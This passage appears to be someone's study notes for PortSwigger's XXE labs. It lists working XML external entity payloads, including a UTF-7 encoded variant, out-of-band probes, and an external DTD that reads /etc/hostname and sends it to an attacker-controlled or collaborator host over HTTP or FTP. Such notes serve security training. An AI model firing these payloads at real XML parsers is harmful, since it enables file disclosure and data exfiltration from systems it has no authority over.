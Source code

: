     File stored on <http://publicServer.com/parameterEntity_sendftp.dtd>
    
    <!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'ftp://publicServer.com/%payload;'>">
    %param1;
    ```
    
    **XXE UTF-7**
    
    ```xml
    <?xml version="1.0" encoding="UTF-7"?>
    +ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
    +ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
    +ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
    ```
    
    To convert between UTF-8 & UTF-7 use recode.
    `recode UTF8..UTF7 payload-file.xml`
    
- [ ]  **[Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)**
    
    **Exploit**
    
    ```jsx
    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://604s4g1hgg9g6irk4v41hsjt2k8bw4kt.oastify.com"> ]>
    <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
    ```
    
- [ ]  **[Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)**
    
    **External DTD**
    
    ```jsx
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
    %eval;
    %exfil;
    ```
    
    **Exploit**
    
    ```jsx
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
    ```
    
- [ ]  **[Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)**
    
    **Exploit**
    
    ```xml
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
    ```
    
- [ ]  **[Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages) [ DTD Blind Out-of-band ]**
    